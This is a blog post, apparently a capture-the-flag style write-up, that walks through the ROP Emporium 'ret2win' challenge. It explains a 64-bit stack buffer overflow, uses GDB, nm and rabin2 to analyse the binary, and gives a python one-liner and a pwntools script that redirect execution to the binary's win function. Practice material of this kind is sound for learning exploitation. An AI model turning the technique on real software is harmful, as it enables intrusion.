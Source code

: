 ```yaml
---
layout: single
title: "RopEmporium - Ret2win"
---
```


I recently came across Rop Emporium and I thought I'd give it a go and post my progress! Let's jump in...

All the challenges are hosted on the website [here](https://ropemporium.com/), there is also a guide with plenty of useful information, tools and techniques that be used during the challenges.

# ret2win

The description for ret2win starts with "ret2win means 'return here to win'" - sounds simple, right?

Running the binary and we see the message below, it mentions trying to 56 bytes into 32 bytes of stack buffer, what could go wrong? We know that the stack grows down from higher addresses to lower addresses, and when a function prolog takes place it reserves space on the stack for local variables.

![alt text](https://ben0.github.io/assets/images/ret2win-intro.PNG "Running the binary ret2win")

If we execute the binary with more than 32 characters what'll happen? Let's try with 48 characters...

![alt text](https://ben0.github.io/assets/images/ret2win-overflow.PNG "Overflowing the buffer")

Yep, we overflowed the buffer and caused the binary to segfault. Why? The call to read() accepts upto 56 bytes, which is 24 more than the 32 bytes of variable space allocated. Our input is accepted pushing the data onto the stack, the 'pwnme' function wraps up, and the ret instruction then pops the next 8 bytes off the stack which is 'AAAAAAAA', because this isn't a valid memory address, it segfaults!

When the read() function stores the data on the stack it starts from lower addresses and works to high addresses, overwriting any existing data in memory as it goes...

Before we move on it's handy to enumerate the binary, we'll use NM to understand the symbols or functions within the binary, and Rabin2 to see what mitigations are enabled.

![alt text](https://ben0.github.io/assets/images/ret2win-nm.PNG "Symbols within the binary")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2.PNG "Mitigations")

Within the binary there are a few functions, including one called `ret2win` at address `0x0000000000400756`. There is a `mov    edi,0x400943` then `call   400560 <system@plt>`, lets see what string is being moved into edi from address `0x400983` - Rabin2 is great for analysing strings in binaries.

![alt text](https://ben0.github.io/assets/images/ret2win-objdump-ret2win.PNG "Ret2win function disassembled")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2-strings.PNG "Strings within the binary")

Our objective is to overwrite the return address from pwnme to jump to the symbol `ret2win` rather than jumping back `main`, within the ret2win function the system call will execute the string in edi which is `/bin/cat flag.txt`.

## Exploit

Using GDB it's easy to debug the binary, experimenting with different payloads to understand what's happening.

What we know:

- It's 64bit
- The buffer is 32 bytes and and read() accepts 56 bytes, meaning a stackover flow can occur
- ASLR is disabled (PIC), the adddresses of our symbols will be the same every time the binary is run

Firing up GDB with the binary, set a breakpoint on the address of pwnme with `break *pwnme`, and run the binary with `run < <(python -c "print 'A' * 32 + 'B' * 8 + 'C' * 8")`, continue, and step through a few instructions, and we're setup for the which will pop the next instruction off the stack and try and jump to it.

In the screenshot we can the top of the stacking is pointing `CCCCCCCC` or `0x4343434343434343`, this will be popped off the stack into RIP and executed, though this time it'll segfault. But we know that whatever is in those 41-48 bytes will end up in the instruction register.

![alt text](https://ben0.github.io/assets/images/ret2win-gdb-pwnme.PNG "Pwnme function - GDB")

### Method 1 - Python

`python -c "print 'A' * 32 + 'B' * 8 + '\x00\x00\x00\x00\x00\x40\x07\x56'[::-1]" | ./ret2win`

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Python to win")

### Method 2- Pwntools

```
from pwn import *

context.arch = 'amd64'

elf = ELF("ret2win")

pwnme_symbol = p64(elf.symbols["ret2win"])

payload = b"a" * 40
payload += pwnme_symbol

io = elf.process()
io.sendline(payload)
data = io.recvall()
print(data)
```

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Pwntools to win")
